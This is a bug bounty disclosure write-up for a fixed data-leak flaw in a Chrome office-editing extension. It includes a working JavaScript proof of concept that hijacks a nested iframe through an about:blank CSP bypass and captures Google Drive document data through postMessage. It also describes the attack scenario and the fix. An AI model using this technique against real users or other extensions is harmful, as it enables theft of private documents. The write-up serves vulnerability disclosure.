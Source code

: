 ```yaml
---
title: Office Editing for Docs, Sheets & Slides leak (Awarded $3133.70)
---
```


**URL:** <https://chromewebstore.google.com/detail/office-editing-for-docs-s/gbkeegbaiigmenfmjfclcdgdpimamgkj>

**PoC video:** <https://drive.google.com/file/d/1C_zKm0ceWUyxz-3RHdQ5zD9fvUVAtEng/view?usp=sharing>

### Details

- **Replace `msofficeDocId` with the doc ID of a `pptx`/`docx` file you uploaded to google drive**
- It does not need to be shared with anyone.
- 3rd party cookies are required to be enabled however with browser heuristics this can be automatic for example it gets allowed if you open and interact with a popup on Chrome.

```js
let msofficeDocId = '1DuGHZhNFjJFCtOXVkA91t5o92Y3BRJ1u';

setInterval(() => {
  if (window.f) document.body.removeChild(f);
  f = document.createElement('iframe');
  f.width = 500;
  f.height = 500;
  f.src =
    'chrome-extension://gbkeegbaiigmenfmjfclcdgdpimamgkj/views/app.html?state=%7B"ids":%5B"' +
    msofficeDocId +
    '"%5D,"action":"open","resourceKeys":%7B%7D%7D';

  document.body.appendChild(f);

  let loop = setInterval(() => {
    // Wait for iframes to load
    if (f.contentWindow.length !== 2) return;
    clearInterval(loop);

    setTimeout(() => {
      f.contentWindow[0].location = 'about:blank';
      let loop2 = setInterval(() => {
        try {
          // Monitor for leaks via onmessage
          f.contentWindow[0].onmessage = (e) => {
            console.log('Data leaked :) ' + JSON.stringify(e.data));
          };
          clearInterval(loop2);
        } catch {}
      }, 0);
      // Wait a bit for the sandbox to request document content
    }, 600);
  }, 0);

  // Retry ever 2 seconds
}, 2000);
```

This issue was fixed by adding `frame-ancestors 'self'` to the `extension_pages` content security policy.

### frame-src 'self' bypass

Because of an `about:blank` edge case it's possible to navigate a nested, nested 3rd party iframe to it and bypass the child's CSP.  
This has resulted in leaking data due to the victim sending sensitive information to a iframe using the `*` scope that can be hijacked via good navigation timings even with the CSP.  
A GitHub issue was opened about this <https://github.com/w3c/webappsec-csp/issues/662>

### Attack scenario

Attacker websites can leak data from a user's google drive if they know the doc id.
